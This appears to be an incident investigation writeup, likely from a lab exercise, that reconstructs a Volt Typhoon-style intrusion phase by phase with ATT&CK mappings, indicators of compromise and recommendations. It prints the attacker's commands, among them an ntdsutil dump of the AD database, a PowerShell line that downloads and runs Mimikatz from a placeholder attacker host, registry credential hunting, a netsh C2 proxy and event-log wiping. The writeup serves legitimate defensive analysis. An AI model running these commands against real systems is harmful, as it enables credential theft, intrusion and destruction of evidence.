# Volt Typhoon — Incident Investigation Writeup

---

## Executive Summary

This report documents the investigation of a targeted intrusion attributed to **Volt Typhoon**, a state-sponsored APT group known for stealthy, living-off-the-land (LotL) tactics. The threat actor successfully compromised an administrative account via ADSelfService Plus, established persistent access, extracted the Active Directory database, performed lateral movement, and exfiltrated sensitive financial data — all while actively evading detection and covering their tracks.

---

## Attack Timeline Overview

```
[Initial Access] → [Execution] → [Persistence] → [Defense Evasion]
     → [Credential Access] → [Discovery] → [Lateral Movement]
         → [Collection] → [C2] → [Cleanup]
```

---

## Phase 1 — Initial Access

**MITRE ATT&CK:** T1078 – Valid Accounts | T1098 – Account Manipulation

The threat actor began by targeting the ADSelfService Plus portal — a self-service password management platform — to compromise a privileged account.

### What Happened

- The attacker reset the password for the `dean-admin` account through the portal.
- **Within one minute**, a new malicious administrator account was created: `voltyp-admin`.



- The attacker then performed the following to solidify control:
  - **Enrollment & Unlock** — Completed account enrollment and unlocked the account via web browser.
  - **Credential Hardening** — Changed the password and configured new Security Questions to lock out the legitimate user.
  - **MFA Persistence** — Successfully registered a new MFA device to maintain long-term access and prevent account recovery.

### Key Indicators

| Indicator | Value |
|---|---|
| Compromised Account | `dean-admin` |
| Malicious Account Created | `voltyp-admin` |
| Attack Vector | ADSelfService Plus web portal |

---

## Phase 2 — Execution

**MITRE ATT&CK:** T1047 – Windows Management Instrumentation | T1003.003 – NTDS

With administrative access established, the attacker moved to gather system information and extract sensitive Active Directory data.

### Disk Reconnaissance

The attacker executed `wmic` from IP `192.168.1.153` to enumerate logical disks on both `server01` and `server02`:

```
wmic /node:server01, server02 logicaldisk get caption, filesystem, freespace, size, volumename
```


### Active Directory Extraction

Using `ntdsutil`, the attacker created an Install From Media (IFM) snapshot of the AD database:

```
ntdsutil "ac i ntds" "ifm" "create full C:\Windows\Temp\tmp" q q
```

This produced a copy of `ntds.dit` — the Active Directory database containing all user credentials.

### Data Staging & Archiving

The database was moved to the web server using `xcopy`:

```
wmic /node:webserver-01 process call create "cmd.exe /c xcopy C:\Windows\Temp\tmp\temp.dit \\webserver-01\c$\inetpub\wwwroot"
```


Then compressed and password-protected with 7-Zip:

```
7z a -v100m -p d5ag0nm@5t3r -t7z cisco-up.7z C:\inetpub\wwwroot\temp.dit
```


| Detail | Value |
|---|---|
| Archive Name | `cisco-up.7z` |
| Archive Password | `d5ag0nm@5t3r` |
| Staging Directory | `C:\inetpub\wwwroot\` |

---

## Phase 3 — Persistence

**MITRE ATT&CK:** T1505.003 – Web Shell

To maintain a persistent foothold on the compromised server, the attacker deployed a web shell.

### Web Shell Deployment

- **Location:** `C:\Windows\Temp\`
- **Delivery Method:** Base64-encoded script to bypass basic string-based detection.

- The web shell provides the attacker with remote command execution capabilities through the web server, surviving reboots and credential changes.

---

## Phase 4 — Defense Evasion

**MITRE ATT&CK:** T1070 – Indicator Removal | T1036 – Masquerading | T1497 – Virtualization/Sandbox Evasion

Volt Typhoon employed multiple techniques to mask their presence and avoid detection.

### 1. RDP Artifact Cleanup

The attacker cleared Most Recently Used (MRU) RDP connection records using PowerShell:

```powershell
Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Terminal Server Client\Default" -Name MRU*
```

**Cmdlet Used:** `Remove-ItemProperty`


### 2. File Masquerading

The stolen archive was renamed from its original name to blend in with legitimate web assets:

| Before | After |
|---|---|
| `cisco-up.7z` | `cl64.gif` |



Disguising a 7-Zip archive as a `.gif` image file makes it appear as a harmless web resource to casual inspection.

### 3. Anti-Virtualization Check

The attacker queried the following registry path to detect whether the environment was a sandbox or honeypot:

```
HKLM\SYSTEM\CurrentControlSet\Control
```


This is a known technique used by APTs to confirm they are operating in a real, high-value environment before proceeding.

---

## Phase 5 — Credential Access

**MITRE ATT&CK:** T1552 – Unsecured Credentials | T1003.001 – LSASS Memory

### Registry Credential Hunting

The attacker used `reg query` to search for stored credentials in the following three applications (alphabetical order):

1. **OpenSSH**
2. **PuTTY**
3. **RealVNC**

```
reg query hklm\software\OpenSSH\Agent
reg query HKCU\software\dean-admin\PuTTY
reg query hklm\software\realvnc\vncserver
```




### Mimikatz Execution

The attacker downloaded and executed Mimikatz via an encoded PowerShell command. The full decoded command:

```powershell
Invoke-WebRequest -Uri http://<attacker-host>/mimikatz.exe -OutFile mimikatz.exe; Start-Process mimikatz.exe -ArgumentList "sekurlsa::minidump lsass.dmp"
```


This targeted the `lsass.dmp` memory dump file to extract plaintext passwords and NTLM hashes from memory — providing the attacker with credentials to move laterally.

---

## Phase 6 — Discovery

**MITRE ATT&CK:** T1654 – Log Enumeration

### Windows Event Log Enumeration

The attacker used `wevtutil` to query Windows Event Logs, specifically filtering for the following Event IDs:

| Event ID | Description |
|---|---|
| `4624` | Successful Logon |
| `4625` | Failed Logon |
| `4769` | Kerberos Service Ticket Request |

```
wevtutil qe Security /q:"*[System[(EventID=4624 or EventID=4625 or EventID=4769)]]"
```


This allowed the attacker to monitor authentication activity and identify additional targets or detect if their presence had been discovered.

---

## Phase 7 — Lateral Movement

**MITRE ATT&CK:** T1021 – Remote Services | T1505.003 – Web Shell

### Pivot to Server-02

The threat actor moved laterally from the initial foothold to `server-02` by copying the original web shell (`iisstart.aspx`) to the new target and renaming it to evade detection:

| Original Web Shell | New Web Shell |
|---|---|
| `iisstart.aspx` | `AuditReport.jspx` |


Renaming the shell to resemble a legitimate audit report file is a deliberate social engineering technique aimed at deceiving system administrators reviewing file listings.

---

## Phase 8 — Collection

**MITRE ATT&CK:** T1005 – Data from Local System

### Financial Data Exfiltration

The attacker used PowerShell's `Copy-Item` cmdlet to collect three CSV files containing financial records:

```powershell
Copy-Item -Path "C:\...\2022.csv" -Destination "C:\Windows\Temp\faudit\"
Copy-Item -Path "C:\...\2023.csv" -Destination "C:\Windows\Temp\faudit\"
Copy-Item -Path "C:\...\2024.csv" -Destination "C:\Windows\Temp\faudit\"
```

| Files Collected | Staging Directory |
|---|---|
| `2022.csv`, `2023.csv`, `2024.csv` | `C:\Windows\Temp\faudit\` |


---

## Phase 9 — Command and Control (C2)

**MITRE ATT&CK:** T1090 – Proxy | T1572 – Protocol Tunneling

### Netsh Proxy Setup

The attacker used `netsh` to establish a network proxy for C2 communications, tunneling traffic through the compromised host:

```
netsh interface portproxy add v4tov4 listenport=<local_port> connectaddress=10.2.30.1 connectport=8443
```

| Parameter | Value |
|---|---|
| Connect Address | `10.2.30.1` |
| Connect Port | `8443` |


Using port `8443` (HTTPS alternate) helps blend C2 traffic with normal web traffic, making detection significantly harder.

---

## Phase 10 — Cleanup

**MITRE ATT&CK:** T1070.001 – Clear Windows Event Logs

### Event Log Wiping

In the final stage, the attacker cleared four Windows Event Log categories to destroy forensic evidence:

```
wevtutil cl Application
wevtutil cl Security
wevtutil cl Setup
wevtutil cl System
```


| Log Type | Content Destroyed |
|---|---|
| **Application** | Application errors and warnings |
| **Security** | Authentication, access control, and audit events |
| **Setup** | Installation and configuration events |
| **System** | OS-level events and driver failures |

---

## MITRE ATT&CK Mapping Summary

| Phase | Tactic | Technique ID | Technique Name |
|---|---|---|---|
| Initial Access | Initial Access | T1078 | Valid Accounts |
| Account Takeover | Persistence | T1098 | Account Manipulation |
| Disk Recon | Discovery | T1047 | Windows Management Instrumentation |
| AD Extraction | Credential Access | T1003.003 | NTDS |
| Web Shell | Persistence | T1505.003 | Web Shell |
| RDP Cleanup | Defense Evasion | T1070.004 | File Deletion |
| File Masquerading | Defense Evasion | T1036 | Masquerading |
| Anti-VM | Defense Evasion | T1497 | Virtualization/Sandbox Evasion |
| Registry Hunting | Credential Access | T1552 | Unsecured Credentials |
| Mimikatz | Credential Access | T1003.001 | LSASS Memory |
| Log Enumeration | Discovery | T1654 | Log Enumeration |
| Lateral Movement | Lateral Movement | T1021 / T1505.003 | Remote Services / Web Shell |
| Data Collection | Collection | T1005 | Data from Local System |
| C2 Proxy | C2 | T1090 | Proxy |
| Log Wiping | Defense Evasion | T1070.001 | Clear Windows Event Logs |

---

## Indicators of Compromise (IOCs)

| Type | Value |
|---|---|
| Malicious Account | `voltyp-admin` |
| Attacker IP | `192.168.1.153` |
| C2 Address | `10.2.30.1:8443` |
| Archive Password | `d5ag0nm@5t3r` |
| Original Archive | `cisco-up.7z` |
| Disguised Archive | `cl64.gif` |
| Web Shell (Server-01) | `C:\Windows\Temp\` (base64 encoded) |
| Web Shell (Server-02) | `AuditReport.jspx` |
| Staging Directory | `C:\Windows\Temp\faudit\` |
| Collected Files | `2022.csv`, `2023.csv`, `2024.csv` |

---

## Recommendations

1. **Harden Self-Service Portals** — Require admin approval for password resets and MFA re-enrollment on privileged accounts.
2. **Monitor for ntdsutil Usage** — Alert on any invocation of `ntdsutil` with IFM parameters outside of scheduled DR operations.
3. **Restrict WMIC Remotely** — Block remote WMIC access from unauthorized hosts.
